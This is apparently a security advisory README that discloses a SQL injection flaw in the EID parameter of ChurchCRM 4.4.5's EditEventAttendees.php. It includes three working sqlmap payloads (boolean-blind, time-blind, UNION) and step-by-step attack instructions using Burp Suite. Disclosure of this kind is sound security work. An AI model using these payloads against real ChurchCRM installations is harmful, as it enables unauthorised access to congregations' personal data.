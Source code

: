 # ChurchCRM-v4.4.5_Vuln1
ChurchCRM v4.4.5 has SQL Injection Vulnerabilities at EditEventAttendees.php

### Vulnerability Explanation:
ChurchCRM version 4.4.5 allows its users to add new events such as church services, Sunday school. Once an event has been created it can also be view attendees through the Church Event page, Church Event Editor. The EID parameter of the EditEventAttendees.php can be abused for injecting arbitrary SQL queries.

### Affected: 
1. https://{IP_Address}/churchcrm/ListEvents.php

2. POST /churchcrm/EditEventAttendees.php HTTP/1.1

### Payload :
```
Parameter: EID (POST)
    Type: boolean-based blind
    Title: Boolean-based blind - Parameter replace (original value)
    Payload: EID=(SELECT (CASE WHEN (9661=9661) THEN 1 ELSE (SELECT 6727 UNION SELECT 7189) END))&EName=2022-07-03-Church Service&EDesc=&EDate=July 03 2022 10:30 am&Action=Attendees(0)

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: EID=1 AND (SELECT 4311 FROM (SELECT(SLEEP(5)))kQmS)&EName=2022-07-03-Church Service&EDesc=&EDate=July 03 2022 10:30 am&Action=Attendees(0)

    Type: UNION query
    Title: MySQL UNION query (random number) - 2 columns
    Payload: EID=1 UNION ALL SELECT 3410,CONCAT(0x7176627671,0x6857594554466f6748796f4e61544c594a4c62527751794d4c4453504f4b45486b5358464541776c,0x71626a6271)#&EName=2022-07-03-Church Service&EDesc=&EDate=July 03 2022 10:30 am&Action=Attendees(0)
```
### Tested on: 
1. ChurchCRM v4.4.5 (https://github.com/ChurchCRM/CRM/releases/tag/4.4.5)

2. Google Chrome Version 102.0.5005.115 (Official Build) (x86_64)

3. sqlmap version 1.6.4 stable

### Steps to attack:
1. Login with username and password.
2. Select the "List Church Events" tab.
3. If you don't have any events, you may add them by clicking the "Add New Events" button.
4. Create Church Events such as church services and Sunday school.
5. When you save the event, it will appear on the Listing All Church Events page.
6. Intercept request by using Burp Suite.
7. When you click on Attendees, you will be sent to the Church Event Editor page.
8. Returning to Burp Suite, at /churchcrm/EditEventAttendees.php, right-click and select "Copy to file."
9. Send the request file to Kali Linux and use sqlmap with it.
10. SQL Injection vulnerability discovered through EID

### Author:
Grim The Ripper Team by SOSECURE Thailand
